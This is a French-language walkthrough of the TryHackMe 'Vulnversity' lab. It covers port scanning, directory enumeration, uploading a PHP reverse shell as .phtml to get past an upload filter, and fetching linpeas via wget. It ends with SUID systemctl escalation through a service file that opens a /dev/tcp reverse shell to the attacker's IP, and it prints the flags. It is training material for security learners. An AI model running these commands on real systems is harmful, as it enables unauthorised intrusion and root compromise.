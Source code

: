 ```yaml
---
attachments: [Clipboard_2020-08-11-16-46-42.png]
tags: [cyber, débutant, suid, systemctl, tryhackme]
title: TryHackMe - Vulnversity
created: '2020-08-11T13:52:36.955Z'
modified: '2020-08-20T14:12:47.136Z'
---
```


# TryHackMe - Vulnversity

## Reconnaissance

On lance metasploit et on créé un nouveau workspace :

```sh
kali@kali:~$ sudo msfconsole -q # no banner mode
msf5 > workspace vulnversity
[*] Workspace: vulnversity
msf5 >
```

Lançons nmap pour énumérer l'ip `10.10.140.229` :

```sh
msf5 > db_nmap -sV -sS 10.10.140.229
[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-11 10:07 EDT
[*] Nmap: Nmap scan report for 10.10.140.229
[*] Nmap: Host is up (0.061s latency).
[*] Nmap: Not shown: 994 closed ports
[*] Nmap: PORT     STATE SERVICE     VERSION
[*] Nmap: 21/tcp   open  ftp         vsftpd 3.0.3
[*] Nmap: 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
[*] Nmap: 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 3128/tcp open  http-proxy  Squid http proxy 3.5.12
[*] Nmap: 3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
[*] Nmap: Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 33.84 seconds
```

Le nmap stocke les informations dans la base de données de metasploit, que l'on peut rappeler :

```sh
msf5 > hosts

Hosts
=====

address        mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------        ---  ----  -------  ---------  -----  -------  ----  --------
10.10.140.229             Linux                      server         
```

```sh
msf5 > services
Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
10.10.140.229  21    tcp    ftp          open   vsftpd 3.0.3
10.10.140.229  22    tcp    ssh          open   OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 Ubuntu Linux; protocol 2.0
10.10.140.229  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
10.10.140.229  445   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
10.10.140.229  3128  tcp    http-proxy   open   Squid http proxy 3.5.12
10.10.140.229  3333  tcp    http         open   Apache httpd 2.4.18 (Ubuntu)
```

## Locating directories with GoBuster

Le serveur est donc un Ubuntu Linux, qui expose 6 services, dont un web sur le port 3333 que l'on va énumérer avec `gobuster` :

```sh
kali@kali:~$ gobuster dir -u http://10.10.140.229:3333 -w /usr/share/wordlists/dirb/small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.140.229:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/11 10:43:29 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/internal (Status: 301)
/js (Status: 301)
===============================================================
2020/08/11 10:43:36 Finished
===============================================================
```

## Compromise the web server

L'URL `internal` semble intéressante, il y a un service d'upload de fichiers.

On va souhaiter y charger un php reverse shell : https://github.com/pentestmonkey/php-reverse-shell

Il faut cependant modifier dans le fichier .php l'adresse d'écoute (notre machine) et le port que l'on souhaîte : 4444

```php
$ip = '10.11.7.104';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

Il faut ensuite ouvrir un listener netcat :

```sh
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
```

Et charger le shell dans l'interface web. Cependant, le fichier est refusé pour cause `extension refusée`. Le serveur nous refuse l'extension .php car il est connu que c'est une extension qui fonctionne bien pour des fichiers malveillants. Essayons plusieurs extensions comme :

- php3
- php4
- php5
- phtml

L'extension .phtml est acceptée par le serveur. On va alors accéder à notre fichier à l'adresse : http://10.10.140.229:3333/internal/uploads/php-reverse-shell.phtml et cela va activer notre connexion netcat.

```sh
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.7.104] from (UNKNOWN) [10.10.140.229] 60774
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:08:20 up  1:14,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

On est bien dans le processus du serveur, on va pouvoir parcourir la machine pour trouver le flag :

```sh
$ ls /home
bill
$ ls /home/bill
user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

## Privilege escalation

On va télécharger `linpeas` sur le serveur victime depuis un python SimpleHTTPServer sur notre machine :

```sh
kali@kali:~/privilege-escalation-awesome-scripts-suite/linPEAS$ sudo python -m SimpleHTTPServer 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 ...
10.10.140.229 - - [11/Aug/2020 11:14:42] "GET /linpeas.sh HTTP/1.1" 200 -
``` 

On télécharge sur le serveur grâce à wget :

```sh
$ cd /tmp
$ wget http://10.11.7.104/linpeas.sh
--2020-08-11 11:14:42--  http://10.11.7.104/linpeas.sh
Connecting to 10.11.7.104:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 233380 (228K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 21%  158K 1s
    50K .......... .......... .......... .......... .......... 43%  126K 1s
   100K .......... .......... .......... .......... .......... 65%  152K 1s
   150K .......... .......... .......... .......... .......... 87%  134K 0s
   200K .......... .......... .......                         100% 30.0K=2.3s

2020-08-11 11:14:44 (97.2 KB/s) - 'linpeas.sh' saved [233380/233380]
```

Il faut ensuite ajouter la permission de l'exécuter, puis on peut le lancer :

```sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

Extrait de la sortie console :

```sh
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands                                                                         
/usr/bin/newuidmap                                                                                                                                                           
/usr/bin/chfn           --->    SuSE_9.3/10
/usr/bin/newgidmap
/usr/bin/sudo           --->    /sudo$

/bin/ping6
/bin/umount             --->    BSD/Linux(08-1996)
/bin/systemctl <----------------------------------------------------------
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

Linpeas nous indique qu'il y a une grosse faille grâce à la commande /bin/systemctl qui a des permissions trop prétentieuses. La lolbin https://gtfobins.github.io/gtfobins/systemctl/#suid indique comment l'exploiter. On va créer un reverse shell sur un port 4445,  différent de celui déjà utilisé.

Setup du listerner netcat sur notre machine :

```sh
kali@kali:~$ nc -lnvp 4445
listening on [any] 4445 ...
```

Exploit de systemctl sur la machine victime :

```sh
$ cd /tmp
$ echo "[Service]\nType=oneshot\nExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/10.11.7.104/4445 0>&1'\n[Install]\nWantedBy=multi-user.target" > /tmp/exploit.service
$ ls /tmp
exploit.service
$ /bin/systemctl link /tmp/exploit.service
Created symlink from /etc/systemd/system/exploit.service to /tmp/exploit.service.
$ /bin/systemctl enable --now /tmp/exploit.service
Created symlink from /etc/systemd/system/multi-user.target.wants/exploit.service to /tmp/exploit.service.
```

Retour du reverse shell sur notre machine :

```sh
kali@kali:~$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.11.7.104] from (UNKNOWN) [10.10.140.229] 48774
bash: cannot set terminal process group (21295): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# ls /root
ls /root
root.txt
root@vulnuniversity:/# cat /root/root.txt
cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

